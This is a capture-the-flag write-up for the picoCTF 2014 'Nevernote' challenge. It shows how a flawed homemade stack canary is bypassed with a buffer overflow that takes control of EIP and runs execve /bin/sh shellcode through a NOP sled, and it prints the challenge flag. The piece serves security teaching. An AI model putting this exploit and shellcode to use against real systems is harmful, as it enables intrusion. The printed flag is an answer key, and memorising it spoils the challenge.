 ```yaml
---
layout: post
title: "picoCTF 2014 Nevernote"
date: 2014-11-07 20:20:17 -0500
author: [barrebas]
comments: true
categories: [picoctf]
---
```


### Solved by barrebas

Nevernote is a 180 point challenge. 

`
In light of the recent attacks on their machines, Daedalus Corp has 
implemented a buffer overflow detection library. Nevernote, a program made
for Daedalus Corps employees to take notes, uses this library. Can you 
bypass their protection and read the secret? The binary can be found at
 /home/nevernote/ on the shell server.
 `

This program attempts to implement a stack canary in a rather dumb way:

```c
struct canary{
    int canary;
    int *verify;
};

/* buffer overflow resistant buffer */
struct safe_buffer{
    char buf[SAFE_BUFFER_SIZE];
    struct canary can;
};
```

So we can overflow this `safe_buffer`, but then we also overwrite the canary. Then the canary check will not pass anymore:

```c
void verify_canary(struct canary *c){
    if (c->canary != *(c->verify)){
        printf("Canary was incorrect!\n");
        __canary_failure(1);
    }

    // we're all good; free the canary and return
    free(c->verify);
    return;
}
```

But since we can overflow the buffer, we control both the canary and the pointer to the canary. This means we can make this check always succeed. Again, no ASLR on the target server allows us to use a static address. Let's supply the address of safe_buffer (the address of which can be obtained from debugging the binary with `gdb`). This is automated like so (it echoes a username and the command for adding a note):

```
pico1139@shell:/home/nevernote$ (echo "bleh"; echo "a"; python -c 'print "A"*512+"AAAA"+"\x50\xc0\x04\x08"') > /tmp/in
...snip...
(gdb) r < /tmp/in
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/nevernote/nevernote < /tmp/in
Please enter your name: Enter a command: Write your note: Note added.
*** Error in `/home/nevernote/nevernote': double free or corruption (!prev): 0x0804c050 ***
```

Now, the binary aborts because the pointer to the canary has already been freed. Not a problem, we won't let it come that far. Let's try to overflow the saved return address:

```
pico1139@shell:/home/nevernote$ (echo "bleh"; echo "a"; python -c 'print "A"*512+"AAAA"+"\x50\xc0\x04\x08CCCCCCCCCCCCCCCCDDDDEEEEFFFF"') > /tmp/in
...
(gdb) r < /tmp/in
Starting program: /home/nevernote/nevernote < /tmp/in
Please enter your name: Enter a command: Write your note: 
Program received signal SIGSEGV, Segmentation fault.
0xf7ea11f3 in ?? () from /lib/i386-linux-gnu/libc.so.6
(gdb) i r
eax            0x45454545	1162167621
ecx            0xffffd414	-11244
edx            0x45454545	1162167621
ebx            0x3f4	1012
esp            0xffffd3f0	0xffffd3f0
ebp            0xffffd628	0xffffd628
esi            0xffffd420	-11232
edi            0x45454545	1162167621
eip            0xf7ea11f3	0xf7ea11f3
eflags         0x10282	[ SF IF RF ]
cs             0x23	35
ss             0x2b	43
ds             0x2b	43
es             0x2b	43
fs             0x0	0
gs             0x63	99
(gdb) x/i $eip
=> 0xf7ea11f3:	movlpd %xmm1,(%edx)
```

Right, a segfault because `edx` points to a place that doesn't exist. Let's fix that by supplying the address of safe_buffer:

```
pico1139@shell:/home/nevernote$ (echo "bleh"; echo "a"; python -c 'print "A"*512+"AAAA"+"\x50\xc0\x04\x08CCCCCCCCCCCCCCCCDDDD\x50\xc0\x04\x08FFFF"') > /tmp/in
...
(gdb) r < /tmp/in
Starting program: /home/nevernote/nevernote < /tmp/in
Please enter your name: Enter a command: Write your note: 
Program received signal SIGSEGV, Segmentation fault.
0x44444444 in ?? ()
```

w00t! We have control over EIP! Since ASLR is off and so is NX, we can just jump a piece of shellcode. Let’s stick in the shellcode (23 bytes execve /bin/sh) and alter the canary to 4*0x90 (which is the start of the NOP sled). Let's overwrite EIP with `0x804c070` to jump in the middle of our NOP sled. We cat the payload & use another cat to keep shell alive:

```
pico1139@shell:/home/nevernote$ (echo "bleh"; echo "a"; python -c 'print "\x90"*(512-23)+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"+"\x90\x90\x90\x90"+"\x50\xc0\x04\x08CCCCCCCCCCCCCCCC\x70\xc0\x04\x08\x50\xc0\x04\x08FFFF"') > /tmp/in

pico1139@shell:/home/nevernote$ (cat /tmp/in; cat) | ./nevernote
Please enter your name: Enter a command: Write your note: 
id
uid=11066(pico1139) gid=1017(picogroup) egid=1011(nevernote) groups=1017(picogroup)
whoami
pico1139
cat flag*
the_hairy_canary_fairy_is_still_very_wary
```

The flag is `the_hairy_canary_fairy_is_still_very_wary`.
